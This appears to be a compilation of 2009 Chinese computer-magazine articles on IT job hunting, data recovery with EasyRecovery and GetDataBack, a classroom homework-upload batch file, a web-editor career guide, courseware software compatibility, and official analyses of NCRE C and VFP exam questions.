第一，给自己定位，要做什么工作。先要对自己的潜能、特长、兴趣、性格做一个分析、了解，看看自己适合做哪一类工作？比如技术研发型岗位；如软件开发、系统分析类的岗位，要求执着、专注、耐得住寂寞，学习能力强，擅长独立思考，富有创新意识。网络设计、动漫设计类的工作是工科里的文科，综合素质要求较高，要有一定的艺术气质。行政管理型岗位，要求有良好的组织、沟通、协调、领导能力以及较强的文字表达能力和语言感染力。

- 岗位要求：
- 一年以上实际软件开发经验；
- 能够熟练使用C/C++；
- 熟悉数据库基本理论，熟练掌握标准SQL语言；
- 熟悉电信网络知识的优先录用；
- 熟悉Unix/Linux应用环境的优先录用；
- 必须具有良好的沟通能力与合作能力；
- 良好的代码规范和文档写作能力；

几乎所有软件开发类中都需要你有团队合作意识，这点对于大型软件项目非常重要，毕竟这些软件是不能靠一人完成的

第二，确定目标单位。可从工资福利待遇、工作环境、企业文化、地理位置等方面衡量。以上信息可通过网络、媒体或有关资料等渠道了解，也可以通过电话、咨询会或向朋友打听来了解。了解信息最好包括企业新产品和新业务的信息以及最近的业务活动信息。总之，目的就是了解对方的需求是否与自己的意愿相近？了解对方的用人原则，以及对方未来的发展思路。从中找出你的优势和让对方赏识你的理由。值得注意的是很多硬件类职位一般不愿意接受计算机专业人才，而对自动化、电子、通信类人才情有独钟。建议职场新人把能否获得学习机会或充分施展才华放在首位，只要能提高、施展自己的才华，工资待遇、工作环境自然会相应改善。

网络大补贴：古代皇帝是怎么“面试”大臣的呢？估计你和我一样好奇http://article.zhaopin.com/pub/view.jsp?id=51818。

### 第二个环节：制作个性简历，争取考试机会

简历是你呈现给招聘官的见面礼，要想办法吸引招聘官的眼球。简历的格式有现成和自创两种，现成的简历格式你可到招聘网站去下载，你也可以自行设计。

一般而言，简历内容通常包含以下项目：

| 内容项目 | 说明 |
| :--- | :--- |
| 应征的职位 | 具体的工作岗位名称，不要笼统列举一个求职范围 |
| 个人基本资料 | 姓名、年龄、性别、籍贯、出生年月、通讯地址及联络电话 |
| 学历与训练 | 毕业学校、所学专业等。这些是硬件，你所学已不足以应付工作需要；如果曾参加校外的专业技能训练课程，特别是与应聘岗位相关的，要加以呈现；让企业了解你具备相关工作能力，也给人积极上进的好印象 |
| 能力与专长 | 专业能力、工作相关能力、语文（外语）能力、资讯处理（电脑）能力、获奖及作品等，有助于企业评估你的专长和能力与应聘岗位是否相符，是否有助于工作的推动。很多软件公司对外语能力有要求，如果有外语优势一定要突出 |
| 经历（工作及社团经验） | 兼职、打工、实习、社团活动（担任干部及举办活动）、义务工作等，这些经历可以突显个人特质，如合群性、领导能力、成熟度等，企业很重视 |
| 个人近照 | 发近照，气质、服装要与职位相符 |

### 简历写作的原则：

- 简洁清晰，重点突出。什么都想表达，结果什么都没有表达清楚。HR没有那么多的耐心和精力去看你的啰嗦简历，顶多是两页。
- 针对性写作——不同公司有不同要求，尽量做到一份简历对应一个职位。多数找不到工作或找不到合适工作的人都是求职无意识或盲目求职的人。仔细阅读相关职位的描述，确定自己理解职位提出的每一个要求。简历中重点突出自己符合职位要求的部分。
- 如果是设计类工作如计算机平面设计和网页美工设计等，一般来说，此类职位招聘以作品质量为主要依据，经验和学历因素则考虑较少。又如应聘程序员，以往的作品是最好的通行证。比如以前工作设计的软件系统、网站系统（B/S软件系统），或者学生时代制作的个人网站和小软件等，比任何语言都有说服力。

### 火速链接：

简历可以说是让你有面试机会的敲门砖，怎么才能“骗”到面试机会呢？如果你的工作经历写着“负责办公室环境卫生”估计是没戏了，但改成“成功策划、组织并完成办公室环境改进与减压提效项目”效果如何呢？类似的实例都在《简历：让你脱颖而出》一书中。

### 第三个环节：参加考试，初示个人才华

像惠普、微软、联想、华为那种知名企业一般要先通过笔试筛选，才能进入面试。所以，你可通过各种渠道特别是网络了解目标单位的招聘模式。如可以到网上了解目标公司历年笔试试题，一般会有热心人介绍，重点是要加强与目标岗位相关的专业知识和专业技能，了解一些实例研究，弥补个人在专业背景上的不足。

### 第四个环节：参加面试，展示个人风采

面试一般有传统招聘法和新奇招聘法。传统的招聘手段会借助笔试、演讲、提问等方式来考察应聘者的基本能力和素养以及沟通、表达能力。也有的招聘单位采用些新奇的考察方式来了解应聘者。比如，设置一些场景来考察你的责任心，你的主动意识等；也有的会采用游戏法、讨论法、旁观法、虚拟法、细节考察法等来了解应聘者的抗压能力、应变能力等综合素质。

比如微软招聘，它但求聪明。决定能不能成功的关键是看应聘者够不够聪明。微软的应聘者会马不停蹄地面临六轮面试。德国西门子公司的招聘模式是结构性面试，它有一个全球性的人力资源题库，一个多小时的面试，前5分钟测什么，后10分钟测什么，非常严格，并且最后都有结论。

在面试时，我们要尽力展示自己的硬实力和软实力。硬实力指的是一个人的知识、技术、经验、资历等一切可以用来谋生的技能，软实力是指一个人的心、胸襟、道德、涵养等。展示的一个总原则就是告诉招聘方：第一，我做得了这个工作；第二，我很愿意做这个工作；第三，把我和其他求职者比较起来，我更有优势，更合适。

面试时主要注意三个方面：着装、礼仪、问题回答。第一印象要给人自信、自然。其次，我们必须在求职礼仪方面强化自己的软实力。再次，若要决定一个人的工作能力与人格涵养，则必须从措辞的方式和应对技巧来判断，所以，要谨慎、巧妙回答问题。

礼仪是一种无声的交谈。礼仪被看成是道德的表现形式，也是一种表敬的方式。总体来说，要注意以下几点：

- 见面要先问候，眼睛要与考官有恰当的眼神接触，给主考官诚恳、认真的印象。谈话时切忌东张西望，适时的点头，表示理解、用心倾听。谈话时不要抢话，不要随意打断别人的谈话。
- 留意自己的非语言行为：跷腿、左摇右摆、双臂交叠胸前、双手插入大腿、单手或双手托腮都不适宜。切忌一些缺乏自信的小动作，如摆弄衣衫和领带、拨弄头发、把弄手指、签字笔或眼镜。避免说话时用手掩嘴。
- 尽可能记住每位主试者的姓名及称谓（某某女士、某某经理等），不要记错（如把某某小姐错记为某某太太）。整个面试过程应保持一种认真、谦虚、稳重和自信的状态。告辞时，别忘了感谢。

应聘者的回答将成为面试官们考虑是否接受你的重要依据。求职者常常会面对以下几个问题：

- 请你先自我介绍一下。
- 我们为什么要雇用你？
- 自己有哪些优点、缺点？
- 谈一谈你的一次失败经历？
- 你为什么选择我们公司？
- 你以前有过怎样的工作经验？
- 你打算在未来的五年里做些什么？
- 为什么要从前一家单位离职？
- 你希望的待遇为多少？

以上问题没有标准答案，只是看你的思维能力。你要做的事情就是帮助考官了解自己，把考官当做朋友，打消考官的犹豫，坚定考官这样的印象：我适合这个工作、我愿意做这个工作、我比别人有优势！

最后，我给大家一个友情提示：不要对另外的人尤其是竞争对手出言不逊；不要贬低你自己的教育或老师；不要在面试中进行工资谈判，你还没被录取呢；给目标单位点推销他们自己的机会；不要面试后马上去打听面试结果。

### 小提示：

现在不管是哪个企业，也不论以后工作中是否需要，反正都喜欢增加个英语面试环节，如果你准备看看相关的书籍，那么买一本就足够了，这类书大多是抄来抄去，实例大同小异，甚至是完全一样。

（上海/袁紫燕）

## NEW TECH IT新技术

### Solar Battery（高效太阳能电池技术）

太阳能可用于发电和发热，但太阳能电池在蓄电过程中产生的大量热能若不及时排除，将大大影响电池的供电效能。天津大学和澳大利亚国立大学一项有望大幅提高太阳能电池电热联供效能的合作项目8月20日在澳大利亚堪培拉启动。此前，两校通过一个为期两年半的合作项目，率先采用液体浸入技术，通过将太阳能电池直接浸没在液体中，实现了聚光条件下电热联供效能提升70%。20日宣布启动的新项目，有望在此基础上更大幅度地提高这种电热联供效能，并将显著降低技术成本。

### Music Tombstone（音乐墓碑）

首届2009年广州国际殡葬博览会在广州琶洲保利艺展览中心开幕，其中自动播放音乐的太阳能电子墓碑，吸引了众多参观者的眼球。据介绍，这是一款个性化的墓碑，碑旁竖着一块接收太阳能的电子显示屏和内置音箱，还有一个2GB内存的感应器，感应器旁有一个USB接口。家属可根据先人生前的喜好，把下载的音乐经过USB接口导入到感应器中，太阳能音乐装置就会自动播放音乐了。该墓碑价格为1.8万元，吸引了众多参观者的围观。

## 速成数据恢复工程师：找回不同分区中的数据

信息化时代，无论是个人还是公司、企业，甚至国家单位，我们都越来越依赖电脑，文档、邮件、资料、合同、研究报告等数据无一不是存储在电脑上。而学习数据恢复技术，除了能以此谋生外，其他如系统管理人员、技术支持工程师、信息安全人员、开发人员等IT从业者，在工作中同样会用得到。

### 业界探幽

> CFan：用电脑时，一旦遇到数据丢失的情况，这时该如何处理？
>
> 业内人士：首先最关键的是停止一切不必要的操作，尤其不要在丢失文件的分区内进行任何写入数据的操作（包括复制、新建文件等），这些极易造成二次破坏，增大后期恢复的难度。如果误删除的是系统所在分区上的数据，例如桌面上放的一些文件，则要立刻强行直接关闭计算机，因为大家都知道，操作系统有虚拟内存，而且在运行的过程中会有很多的临时文件产生并且存入系统分区，这都可能导致数据破坏，并且破坏力极强。
>
> 接下来自己要对数据的价值有一个判断：如果仅是一般性的数据，可以自己通过一些软件尝试恢复；而如果数据非常重要，甚至关系到自己的工作前途等，建议最好还是找一家专业数据公司来帮助修复，当然这会花费一些钱。
>
> CFan：专业数据公司，收费情况如何？
>
> 业内人士：收费标准，既要根据故障类型来分，还要视数据量而定。下面是某家公司关于纯软件故障的简单收费标准，当然各家公司的收费标准会有所不同，在委托他们恢复时，事先要具体咨询。

| 软件故障 | 分区格式 | 故障项目 | 容量 | 备注价格 |
| :--- | :--- | :--- | :--- | :--- |
| 文件误删除、误格式化、误ghost、重装系统覆盖、分区表丢失、误分区、中病毒、黑客攻击、PQ误操作、BOOT区丢失等 | FAT、NTFS分区格式 | 一项故障 | 100GB以下 | 400元起价 |
|  |  | 两项故障 | 100GB以下 | 600元起价 |
|  |  | 两项故障以上 | 100GB以下 | 800元起价 |
|  |  | 其他问题 | 100GB以下 | 面议 |
|  |  | 上述问题 | 100GB以上 | 加收15% |
|  |  | 二次恢复（在其他公司做过） |  | 1000元起价 |
|  | 其他分区格式 (MAC、UNIX、LINUX等) | 一项故障 | 100GB以下 | 1000~3000元 |
|  |  | 两项故障 | 100GB以下 | 1200~4000元 |
|  |  | 两项故障以上 | 100GB以下 | 1500~5000元 |
|  |  | 其他问题 | 100GB以下 | 面议 |
|  |  | 上述问题 | 100GB以上 | 加收15% |
|  |  | 二次恢复（在其他公司做过） |  | 2000~5000元 |

### 任务实战

不同文件系统的分区内，误删除文件的后果是不一样的。下面分别介绍一下FAT32与NTFS分区下的数据恢复操作。

#### FAT32文件系统下的文件恢复

FAT32分区内的文件被删除之后，一般很难还原其完整的目录结构。如果被删除的是办公文档或者照片这类的文件，那么恢复起来效果要相对好一些，因为这类文件一般不大，存放的时候一般都是连续存放的，只要找到文件的起始和结尾，就可以将其完整地恢复出来。但如果存放的是一些零碎的网站源程序或者数据库文件的话，就很难说恢复的结果是什么样了。

##### 实战案例

FAT32文件系统上的误删除，如果被删除的是办公文档或者图片的话，EasyRecovery（试用下载：http://www.onlinedown.net/soft/73968.htm）完全可以胜任恢复工作。

- 第一步：启动EasyRecovery Pro，点击左侧“数据恢复”按钮，然后再点击右侧窗格中的“删除恢复”按钮。
- 第二步：经过短暂的扫描之后，程序首先弹出警告框，提示我们不要将文件复制到待恢复文件所在的源分区，点击“确定”后进入恢复向导界面。首先选中误删文件所在的分区，然后再在右侧的“文件过滤器”栏中输入要恢复的文件的文件名及类型（文件类型也可以从下面的下拉列表中直接选择）。程序默认是查找所有被删除的文件，一般用默认值即可。注意，如果文件被删除了很长时间，则建议将“完整扫描”前的复选框选中，这样恢复成功的几率要大一些。
- 第三步：点击“前进”，程序开始扫描该分区，最后弹出一个文件列表窗口，该窗口与“资源管理器”差不多，用户只需在该列表中查找需要恢复的文件并点击勾选（打上“√”）即可。

###### 小提示：

那些已经删除的文件被EasyRecovery找到后，在文件列表中的文件名与原来的文件名可能有所区别，因此在查找需要恢复的文件时要有一定的耐心，可根据文件名及文件类型来判断是否是自己需要恢复的文件。另外，选中某个文件后，还可以点击“查看文件”按钮来查看所选文件里面的内容，这一点对于查找文本文件非常有用。

- 第四步：选择好需要恢复的文件后，点击“前进”按钮，程序要求选择一个用来存放恢复文件的目录。注意，为了恢复的安全，建议将恢复数据存放到其他分区中（比如需要恢复的文件在D盘，则可将找到的文件保存到E盘）。
- 第五步：点击“恢复到本地驱动器”后面的“浏览”按钮，在弹出的窗口中选择好目标目录即可。继续点击“前进”，程序就会将选定的文件恢复到设定的文件夹中了。

#### NTFS文件系统下的文件恢复

在误删除之后如果没有再做任何操作的话，肯定数据及目录结构会很完整。从数据恢复这个角度来看，NTFS文件系统的可恢复性比FAT32文件系统要好得多，NTFS文件系统的安全性也较FAT32要好。所以建议一般的用户使用NTFS文件系统。

##### 实战案例

EasyRecovery这款软件对NTFS的恢复效果也非常好，其最大优势就是不会向分区的底层数据进行二次覆盖，简单来说就是没有任何的写操作。操作步骤与上例相同，这里就不再重复介绍了。其次推荐使用的是GetDataBack for NTFS（试用下载：http://www.newhua.com/soft/7353.htm）。

下载解压后，先双击导入注册表文件“设置语言.reg”，然后再双击其中的gdbnt.exe即可运行软件。运行的将是中文界面。点击右下角“继续”按钮，选择要恢复文件所在的分区，然后点击“下一步”。接下来软件开始扫描文件系统，完成后，选择你想显示在恢复树中的文件系统，然后点击“下一步”，将扫描出该文件系统中所有可恢复的目录和文件。选中需要恢复的文件复制到其他分区保存即可。

这款软件使用简单，效果很好，但有个缺点就是在恢复的过程中容易自动关闭，不过这并不影响它的使用，只要在扫描完成后将扫描的结果保存就可以了，下次启动软件后重新装载扫描结果即可。

### 高手论道

- ★在做数据恢复的时候，尽量将要进行恢复的盘当做从盘挂接到别的机器上，尤其是要恢复的数据就存放在系统分区上的。
- ★许多的数据恢复软件都是全英文的，对于一般的用户尽量找一些汉化过的软件来用，否则可能造成误操作。例如：在选择将数据恢复到哪里时，不懂英文的朋友可能会错误地将数据又导回到数据丢失的分区，这种后果不堪设想，肯定会发生数据再次覆盖的现象。
- ★数据非常重要的话，寻找数据恢复公司时就要相当谨慎，专业公司的服务相对来说较有保证。作为我们自己来说，首先应该确保自己的数据安全。数据安全包括：
  1. 数据是否会被恢复者私自拷贝复制，是否会被恶意利用或者无偿地商业使用等。
  2. 如果数据恢复不成功，原始数据是否被完好保存，以备客户寻找其他渠道保存？因为很多数据恢复公司由于自身能力限制，不能成功恢复数据，但是他们竟然恶意破坏原始数据，致使其他数据恢复公司也不能够恢复。达到自己不能赢利，其他同行也不能获利的目的。
  所以在进行委托前，一定要了解清楚数据恢复公司备份、保密的程序，签定合同时要进行充分的约定，免除后续的麻烦。
  （飞客数据恢复/聂阳）

## 巧建学生上传作业的快捷通道

在机房教学中，学生如何提交作业一直是信息技术教师讨论的话题。能不能建一条方便快捷的传输通道呢？我经过摸索，找到了一种切实可行的好方法。

### 第一步：新建作业存放空间

首先在教师机D盘中建一个文件夹为“学生作业”并设置“共享”，其权限为“完全控制”，作用是用来接收学生提交的作业；接着在学生机的D盘中建一个文件夹为“作业”，作用是临时存放学生完成的作业。

### 第二步：巧建作业传输通道

在学生机中，打开记事本程序并输入以下内容：

```
xcopy d:\作业\*.* \\192.168.1.100\学生作业\
```

其中，192.168.1.100为教师机的IP地址。输入好后，把文件保存在桌面上，并取名为“上传作业.bat”。

现在，当学生完成作业后想上传作业时，只需双击桌面上的“上传作业.bat”批处理文件，保存在D盘“作业”文件夹下的文件就能自动地复制到教师机的“学生作业”文件夹中。各位老师灵活应用上述方法，就可实现学生快速上传作业啦！

#### 小提示：

- 在实际应用中注意以下几点：
  1. 由于是文件夹共享，学生机数量较多，建议教师机安装Windows 2000及以上服务器版，设置合理的学生机访问数。
  2. 学生机最好设置“开机还原”功能，以清除“作业”文件夹下以前学生做的作业文件（或者是建一个含删除命令的自动批处理文件）。
  3. 为了防止学生互相拷贝作业和恶意删除教师机“学生作业”文件夹下的文件，建议隐藏“网上邻居”等。
  （重庆/周显胜）

## 教育部考试中心专稿：2009年上半年全国计算机考试官方重难点真题分析（二级C语言篇）

果果：开学后不久要迎来2009下半年全国计算机等级考试了，暑假里各位有什么计划呢？有人报了辅导班，有人打算自学，无论哪种方法，都别忘了研究真题哟！教育部考试中心作为NCRE的主办方，6月结束了对2009上半年各科考试的统计分析，对于重点科目的重难点真题，将在本刊连载官方点评，欢迎关注！上期刊登的是二级C++，这期科目为二级C语言。如果你有任何问题，请发邮件到NCRE@cfan.com.cn，我将请考试中心的专家为你做权威解答。

### 选择题第16题：

若有定义语句：double x, y,*px,*py; 执行了 px=&x; py=&y;之后，正确的输入语句是

- A) scanf("%f %f", x, y);
- B) scanf("%f %f" &x, &y);
- C) scanf("%lf %le", px, py);
- D) scanf("%lf %lf",x, y);

【答案】C
【分析】
(1) 该题考生答对率只有37.6%，45.9%的考生选择了错误项B。
(2) 这是一道基础题，考查的是考生对数据类型和输入函数及格式的掌握，lf和le都是输入函数对双精度变量的表示，对应double定义，所以选项C是正确的，而不少考生选择B，姑且不论B中缺少应有的逗号，即使有逗号，也只能表示单精度变量，与double所定义的双精度型不匹配。
(3) 这道题区分度较高，达到0.348，是一道好题。

### 选择题第20题

以下程序段中的变量已正确定义
for( i=0; i<4; i++,i++ )
for( k=1; k<3; k++ ); printf("*");
程序段的输出结果是

- A) ********
- B) ****
- C) **
- D) *

【答案】D
【分析】
(1) 只有18.4%的考生答对，有45.5%的考生选择了B。
(2) 如果这道题for语句后面没有分号，相信有很多考生能够答对（比现在选择B的比例一定还要高），就是执行4次循环嘛。但由于有了分号，两条for语句执行的是空循环，并不会对printf语句产生任何作用，最后只是执行了一次printf语句，输出一个*号。
(3) 这是一道容易题，结果却成为难题。每次C语言考试中，这样的试题总有一两道，试题本身并不难，需要考生有一份细心。实际上，这样的试题并不是老师特别想出来的，而是来自于不少学生在日常上机过程中“创造”的，外人一眼还真不容易看出来。
(4) 该题区分度0.26，表明该题具有一定区分度。

### 选择题第26题

有以下程序
#include <stdio.h>
void fun( int *a,int *b)
{ int *c;
c=a;a=b;b=c;
}
main()
{ int x=3, y=5, *p=&x, *q=&y ;
fun(p,q); printf("%d,%d,",*p,*q);
fun(&x,&y); printf("%d,%d\n",*p,*q);
}
程序运行后的输出结果是

- A) 3,5,5,3
- B) 3,5,3,5
- C) 5,3,3,5
- D) 5,3,5,3

【答案】B
【分析】
(1) 该题只有19.7%的考生答对，有33%的考生选择了C，有29.2%的考生选择了A，选D的也有18.2%。属于本套试卷里的难题。
(2) 各个选项都有不少的考生去选择，说明三个错误选项正符合部分考生的错误解题思路。在该题中，由于被调用函数的形参变量为指针型，所以fun(p,q);和fun(&x,&y);两条语句所产生的作用是一样的，都将x、y的地址传递给了形参，但由于在被调用函数里，实现的并不是实参值的互换，而是两个形参(a和b)指向地址的互换，对x、y两个变量的值没有影响，对实参*p和*q也没有影响。所以，两个printf语句的输出都是3和5。
(3) 该题区分度0.26，该题属于较难且有一定区分度的好题。

### 填空题第10题：

下列程序运行时，若输入1abcedf2df <回车> 输出结果为 【10】 .

```c
#include <stdio.h>
main()
{ char a=0,ch;
while((ch=getchar())!='\n')
{if(a%2!=0&&(ch>='a'&&ch<='z'))
ch=ch-'a'+'A';
a++; putchar(ch);
}
printf("\n");
}
```

【答案】1AbCeDf2dF
【分析】
(1) 本题只有16.1%的考生答对。
(2) 可能不少考生看到长长的if语句就蒙了，加上不理解后面一条执行语句的作用，就更不会做了。实际上还是比较好理解的，如果考生做过类似的上机题会更加觉得容易。if语句的作用就是判断输入的字符串的偶数位上的字符，如果是小写字母，就将其改为大写字母。输出就是1AbCeDf2dF。
(3) 这道题区分度0.379，表明区分能力较强。

## 住在心灵里的刀刀狗用电脑和网络打开一扇窗

今年夏天，我买了一本书，那个语出惊人的亲切可爱的刀刀狗带我走进一个纯净的心灵世界。于是我对他的创作者充满了好奇。今年秋天，我在网上无意中走进刀刀的世界http://blog.sina.com.cn/daodaodog。在粉丝群里很快遇到了著名漫画家慕容引刀，他欣然接受了本刊的采访邀请，对生活、对电脑、对网络世界的感悟娓娓道来……

果果：请谈谈刀刀诞生的故事。

慕容引刀：开始画刀刀之前，我做了很多年的动画片制作，无论是《忍者神龟》还是《佐罗》，都是一条劳动力密集型的流水线。我虽然是执行导演，也一样被钉在这条生产线上。而且可怜的是，做国外动画片的加工，没有署名，工作繁重，又不可能有多少的创意能让自己去发挥。一天加班，我累了，站起来看着窗外，无意中看到一张纸片在空中飞舞盘旋，我顿时心生感慨，觉得自己活得还不如这张纸自由。于是就把这话写在了办公桌的右下角。写完，又觉得意犹未尽，就顺手再画了一个小狗。这就是刀刀。所以我常说刀刀的诞生地是在我的办公桌右下角。他的诞生，也是我生活工作压力的一个出口。

## 门槛最低的IT白领：网络编辑

曾几何时，IT曾是炙手可热的行业，其优惠的待遇，高额的薪水，吸引了很多人的目光。但其苛刻的入行门槛，也将很多人挡在了大门的外面。这几年互联网飞速发展，随着行业的成熟，入行的门槛也越来越低，也就意味着更多的就业机会。今天就向大家介绍一下IT行业中最重要的一个职位：网络编辑（网编）。对于一个网站来说，内容是最核心的竞争力，也是一个网站的灵魂。而网编就是灵魂的缔造者。那如何进入这个行业呢？下面听我一一道来：

### 网编：我不是传统编辑，我可以‘瞎糊’

估计不少人，总以为网编与传统编辑差不多，甚至是一回事。其实虽然同是编辑，但是差别还是挺大的。传统的纸媒编辑，对文字功底要求很高，行文要求严谨、严肃，甚至标点符号都不能错。对于传统编辑的专业性要求也极高，要掌握各种文字，排版太贵。应该说入行门槛很高。而对于网编，文字要求就没有那么高，只要基础不是太差就可以，同时行文也不要求那么严谨和严肃，最重要的是只要用户喜欢看，偶尔有些小错误，也没关系，毕竟网络不同于纸媒，一旦出版，就无法更改。相对于传统编辑，网编的入行门槛很低。

> 小提示：评定一个网编工作好坏的标准，主要是PV，也就是点击率。当然对于一些特别的网编还有用户注册数等考核方式。

### 网编：同名活不同

别看都叫网编，但还是不一样的，比如按照国家的标准就分网络编辑员、助理网络编辑师、网络编辑师和高级网络编辑师四个等级。当然了，行内还是对网编进行了细分。

在公司里，大一级压死人呀。不过你也别光看名头，某些小网站每个频道都只有一个人，于是他的头衔就是看似很强大的‘频道主编’。

| 编辑级别 | 描述 |
| :--- | :--- |
| 普通编辑 | 刚入职的时候都是这个级别，主要负责干活，估计工作都是Ctrl+C和Ctrl+V。 |
| 高级编辑 | 钱比普通编辑多；能力要比普通编辑强，多是做网站专题。 |
| 频道主编 | 管理一个频道的事务，联系合作之类的。 |
| 网站主编 | 负责一个网站的整体内容，这个级别的工作基本就是开会了。 |
| 内容总监（总编） | 负责多个网站的内容，协调网站之间的资源等等。 |

除了按级别分之外，还可根据工作内容来分，有些编辑负责的工作还是挺累的：

| 编辑类型 | 描述 |
| :--- | :--- |
| 社区编辑 | 主要是管理网站论坛，和网友互动，组织各种论坛或线下活动，属于又累钱又少的。 |
| 行情编辑 | 主要是更新市场行情报价，是个力气活。 |
| 视频编辑 | 现在越来越多的网站都加入了视频，于是这个原本在电视、电影圈里的职业，也进入到网编的队伍了。 |
| 新闻编辑 | 主要是负责新闻的采写、编辑，有点记者的性质。 |
| 内容编辑 | 负责网站文章更新，还有专题制作的编辑。 |

还有按照产品、频道来分，有些大网站每个频道下编辑的收入，是和频道的运营情况挂钩的，频道效益好收入就高：

| 编辑类型 | 描述 |
| :--- | :--- |
| 手机编辑 | 让你天天用新手机，爽不？ |
| 笔记本编辑 | 天天玩到新笔记本，牛不？ |
| 硬件编辑 | 天天让你攒机、测数据，烦不？ |
| 数码编辑 | 手机、笔记本、DC、DV……全负责！ |
| 汽车编辑 | 经常有试驾的机会，但你要有些汽车的知识。 |
| 房产编辑 | 经济危机的罪魁！不过复苏ing。 |

不管怎么分，提升自身的能力与专业性才是正道。

### 网编：你需要些什么？

都说网编就是复制粘贴，其实需要掌握的技能还真不少。首先文笔流畅，不然还怎么‘编’？你还需要学会多种工具，当然不必精通就是：熟练使用WORD，PowerPoint等办公软件，Photoshop等图形图像处理软件，DreamWeaver等相关的网页工具。第三，就是最好能了解一些掌握HTML，JavaScript等网络语言。除了这些还要求对相关的专业领域有一定的了解，掌握相关的专业知识。比如你做汽车频道，连国际上的三大车展都不知道那还怎么做？

而相对于技能来说，对于学历的要求则要简单很多。一般大专学历足够，甚至有些公司根本不看学历。基本上这是一个只看能力，不看学历的职业。通常相关公司招聘网编时，更喜欢新闻、中文、计算机等专业的人才；当然，也有例外，比如一些专业性极强的网站，比如医疗、法律等，则更喜欢专业对口的人才。

### 网编门道多，挑选时分要注意

别看都是‘网编’，但大公司的网编通常的日常工作只有内容更新，不过对于小公司来说可就不同了，你可能还需要负责网站服务的管理，公司内部设备网络的维护，一个人管一摊事，虽说很风光，但相当累，个人认为宁做凤尾不当鸡头！

### 网编：挣多少这个很关键

网编是个贫富差距很大的行业，月薪普遍可以在2000元~6000元之间，主要视经验、能力以及公司规模而定。刚刚入行的新人，月薪1000元不到的也有，月薪能达到5000元~8000元的网编不在少数，甚至个别的编辑月薪可以上万。除了工资外，网编还有一些灰色收入，有些厂商还会送些小礼物等等。

### 网编：注意素质！

通过本人多年来的总结，如果你没有下面这些基本素质，很难在这个行业里混下去……

- ①良好的抗压能力。一周六天工作，从未有过七天长假，这就是某个网站高级编辑的工作时间。毕竟网络要求及时性，网编工作的压力还是很大的，所以抗压能力不好的同志，要慎重。
- ②良好的身体素质。每天有10个小时以上的时间都要对着电脑，长期时间缺乏运动，这些都对身体素质提出了极大的挑战，所以想做好网编，身体也很重要。
- ③学习能力。这个行业发展相当快，想跟得上发展，学习是必须的！
- ④创造性思维。想个新点子，做个新专题，这是一个充满了创造性的工作，学会创造很重要。
- ⑤良好的团队合作精神和沟通能力。工作责任心强。这个应该是每个行业应该都具备的通行素质……

(北京/江礼坤)

## 课件制作软件不兼容？驯服有术

随着近几年电脑硬件，软件和网络的迅速发展和逐步完善，为我们在教育领域从事多媒体课件制作带来了极大的便利。现在的优秀课件非常多，从网上搜索一下能找到很多不同软件制作的精美课件。我平时也喜欢利用一些软件来制作教学课件，通常使用Authorware（以下简称AW），Photoshop（以下简称PS），Flash这几款软件相互配合制作课件，其中PS可以进行平面图片的处理，制作课件中需要的背景图片；Flash可以制作课件需要的动画，起到画龙点睛的作用；最后使用AW将图片、动画、文字等内容按照不同的结构连接起来，形成一个完整的课件。

### 摸摸软件的怪脾气

我用电脑制作课件经常会出现一些很难解决的兼容问题：用Flash 8制作的动画文件在发布成SWF格式的文件时能正常运行，里面涉及的文字和按钮也都能正常显示和使用，但是当把这个SWF格式的动画插入到AW 7.02中进行演示时，动画中的内容显示得不完整，有的是文字不能正常显示，有的是按钮不能正常显示。我导入了很多次，也对Flash动画进行了多次不同位置的修改，修改完后再插入到AW 7.02中，演示时原来出现问题的地方仍然得不到改观。

经过反复摸索和总结，再加上多年制作课件的经验，我猜想：是不是Flash 8的版本比较高，插入到AW 7.02中有部分功能不被识别呢？为了验证这个结论，我又将相同的动画在Flash MX中重新制作了一遍，再将制作完的SWF文件导入到AW 7.02中，我惊喜地发现动画完全能正确运行。为了使自己的推论更准确，我又进行了多次验证，终于找出原因了：主要是因为Flash 8的版本比较高，如果改用Flash MX制作动画并保存，或者用Flash 8制作完的动画在保存时选择“以Flash MX格式保存”命令，再导入到AW 7.02中，动画就能够正常地播放了。软件在使用时一般都有高低不同的多个版本，当需要综合使用多个软件时，就要考虑不同版本的软件能否相互兼容的问题，否则辛辛苦苦制作完的动画在导入后不能正常使用就会造成事倍功半的效果。

### 和谐共处吧

办法总比困难多，找出不同软件在兼容性方面的特点，总能让它们和谐共处。

Flash MX和Flash 8不兼容：

Flash MX中制作的内容可用Flash 8打开，但要另存成Flash 8格式才行。反过来，Flash 8制作的内容在Flash MX中却打不开。

AW 6.5和AW7.02不兼容：

同上一个软件一样，在AW 6.5中制作的内容可以用AW 7.02打开，但需要另外保存才可以用。AW7.02制作的文档在AW 6.5中不能打开。

但PS就一样了，它的各个版本都相互兼容，如PS 6.0、PS 7.0、PS CS、PS CS2虽然版本是从低到高，但是低版本制作的图片在高版本下可以打开使用，反过来，高版本制作的图片在低版本下也可以打开使用，这就给使用者带来了很大便利。

总之，当需要使用多个不同软件来进行多媒体教学课件制作时，一定要考虑这些软件之间能否相互兼容，软件版本的高低会不会影响它们之间的调用这个问题，只有重点关注并解决好这个问题，才能顺利完成课件的制作。

(河北/李海燕)## 教育部考试中心专稿：2009年上半年全国计算机考试官方重难点真题分析（二级VFP、VB篇）

编者：开学后不久要迎来2009下半年全国计算机等级考试了。国家教育部考试中心作为NCRE的主办方，对2009上半年各科考试重点科目的精选真题在本刊连载官方点评。欢迎关注！如果你有任何问题，请发邮件到NCRE@cfan.com.cn，我将请考试中心的专家为你做权威解答。

## 二级 VFP 选择题第 22 题：

在 Visual FoxPro 中，关系数据库管理系统所管理的关系是

- A) 一个DBF文件 B) 若干个二维表
- C) 一个DBC文件 D) 若干个DBC文件

考察知识点：这是一道最基础的概念题，考查考生对 Visual FoxPro 中关系、二维表、DBF文件等最基本概念的掌握及三者之间的关系的理解。

> 【试题分析】在 Visual FoxPro 中，一个二维“表”就是一个关系，一个关系存储为一个文件，扩展名为.dbf。所以，题干询问的关系，就是一个二维表，对应了一个 DBF 文件。数据库中则管理多个关系，至于 DBC 文件，则对应数据库文件，包含了若干关系等。

统计数据：该题答对率仅为12.2%，最基础的试题却成为全卷中最难的！有68.9%的考生选择了错误选项B，这是不对的。

## 二级 VFP 选择题第 27 题：

在 Visual FoxPro 中，有如下程序，函数 IIF() 返回值是

```
*程序
PRIVATE X, Y
STORE "男" TO X
Y = LEN(X)+2
? IIF(Y < 4, "男", "女")
RETURN
```

- A) "女" B) "男" C) .T. D) .F.

考察知识点：本题考查考生对汉字字符串长度的判断以及条件测试函数的掌握，主要是后者。

